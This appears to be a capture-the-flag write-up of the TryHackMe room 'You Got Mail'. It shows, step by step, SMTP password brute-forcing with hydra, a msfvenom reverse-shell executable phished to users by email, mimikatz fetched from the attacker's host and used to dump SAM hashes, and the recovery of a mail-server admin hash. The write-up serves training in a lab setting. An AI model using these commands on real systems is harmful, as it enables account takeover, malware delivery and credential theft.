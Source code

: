 ```yaml
---
title: "TryHackMe: You Got Mail"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, brute-force, hydra, cewl, phishing, post-exploitation]
render_with_liquid: false
media_subpath: /images/tryhackme_you_got_mail/
image:
  path: room_image.webp
---
```


**You Got Mail** started with basic enumeration to discover a list of email addresses and create a custom wordlist to find the password for one of them. We then used this account to send phishing emails to other discovered email addresses with an executable attachment to gain a shell. After obtaining a shell, we performed some post-exploitation to discover two passwords and complete the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/yougotmail){: .center }

## Initial Enumeration

### Nmap Scan

Starting with an `nmap` scan, we can see that, apart from some of the usual `Windows` services, there are also mail-related services running.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.118.67
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: NAMESPACE QUOTA CHILDREN IMAP4 CAPABILITY completed OK IMAP4rev1 RIGHTS=texkA0001 ACL IDLE SORT
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Application

Along with the target, we are also given a website at `https://brownbrick.co/`, where we find a static site.

![Brownbrick Index](brownbrick_index.webp){: width="1200" height="600"}

Checking the **Our Team** section at `https://brownbrick.co/menu.html`, we can find a couple of email addresses.

![Brownbrick Menu](brownbrick_menu.webp){: width="1200" height="600"}

## Shell as wrohit

From the emails, we can create a wordlist as follows:

```
fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```
{: file="emails.txt" }

Using the web application, we can also create a custom wordlist for passwords using `cewl`:

```console
$ cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Using `hydra` to test these passwords against the email addresses we found, we are able to discover the password for the `lhedvig@brownbrick.co` email account:

```console
$ hydra -L emails.txt -P passwords.txt 10.10.118.67 smtp -s 587 -t 16
...
[587][smtp] host: 10.10.118.67   login: lhedvig@brownbrick.co   password: bricks
...
```

Now that we have valid credentials, we can use them to send emails to other users.

First, we create a reverse shell executable to use as an attachment with `msfvenom`:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe -o shell.exe
```

Then, using our email list, we can use `sendemail` to send emails with our executable as an attachment to the other users:

```console
$ for email in $(cat emails.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.118.67:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```
{: .wrap }

With this, we can see that our executable is executed by one of the users, granting us a shell as `wrohit` and we can then read the flag located at `C:\Users\wrohit\Desktop\flag.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.118.67] 49773
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Mail\Attachments>whoami
brick-mail\wrohit
C:\Mail\Attachments>type C:\Users\wrohit\Desktop\flag.txt
THM{[REDACTED]}
```

## Finding the Passwords

### Password of wrohit

At this point, since we are a member of the `Administrators` group, we can simply upload **Mimikatz** to the machine and use it to dump the hashes from the `SAM` registry as follows:

```
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```

We can then use **[CrackStation](https://crackstation.net/)** to crack the hash and recover the password for the user.

![Crackstation One](crackstation_one.webp){: width="1000" height="100"}

> There are also many other ways we could have achieved the same goal. For example, we could also obtain the user's hash using the `sekurlsa::msv` module or directly retrieve the password using `sekurlsa::wdigest` instead of cracking the hash. Alternatively, in a scenario where we did not have permissions to run these modules, since we already have a shell as the `wrohit` user, we could have run **responder** on our machine and used the existing shell to force authentication to our server, capturing the hash for the user and cracking it.
{: .prompt-tip }

### Password for hMail Dashboard

Lastly, we are tasked with finding the password for the **hMailServer Administrator Dashboard**, which we can find in hashed form inside the `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI` configuration file:

```
C:\>type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
...
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
...
```

Once again, using **[CrackStation](https://crackstation.net/)** to crack the hash, we can retrieve the password and complete the challenge.

![Crackstation Two](crackstation_two.webp){: width="1000" height="100"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>